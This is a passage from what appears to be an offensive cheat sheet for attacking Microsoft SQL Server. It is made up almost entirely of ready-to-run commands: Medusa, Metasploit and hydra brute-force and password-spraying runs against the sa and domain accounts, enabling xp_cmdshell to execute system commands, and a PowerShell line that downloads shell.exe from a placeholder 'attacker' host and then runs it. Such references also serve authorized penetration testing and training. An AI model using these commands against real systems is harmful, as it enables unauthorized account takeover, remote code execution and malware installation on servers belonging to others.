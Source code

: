 #### Medusa
```bash
# MSSQL brute force with Medusa
medusa -h target -U users.txt -P passwords.txt -M mssql

# SA account specific
medusa -h target -u sa -P passwords.txt -M mssql

# Domain authentication
medusa -h target -u domain\\user -P passwords.txt -M mssql
```

#### Metasploit Brute Force
```bash
# MSSQL login scanner
use auxiliary/scanner/mssql/mssql_login
set RHOSTS target
set USER_FILE users.txt
set PASS_FILE passwords.txt
run

# Specific user attack
set USERNAME sa
set PASSWORD_LIST passwords.txt
run
```

### Password Spraying
```bash
# Common passwords against user list
hydra -L users.txt -p 'Password123!' mssql://target
hydra -L users.txt -p 'admin' mssql://target
hydra -L users.txt -p '' mssql://target

# Seasonal passwords
hydra -L users.txt -p 'Summer2024!' mssql://target
```

---

## Advanced Techniques

### Command Execution Methods

#### xp_cmdshell
```sql
-- Enable and use xp_cmdshell
EXEC sp_configure 'show advanced options', 1;
RECONFIGURE;
EXEC sp_configure 'xp_cmdshell', 1;
RECONFIGURE;

-- Execute commands
EXEC xp_cmdshell 'whoami';
EXEC xp_cmdshell 'net user';
EXEC xp_cmdshell 'powershell -c Get-Process';

-- Download and execute
EXEC xp_cmdshell 'powershell -c "Invoke-WebRequest -Uri http://attacker/shell.exe -OutFile C:\temp\shell.exe"';
EXEC xp_cmdshell 'C:\temp\shell.exe';
```

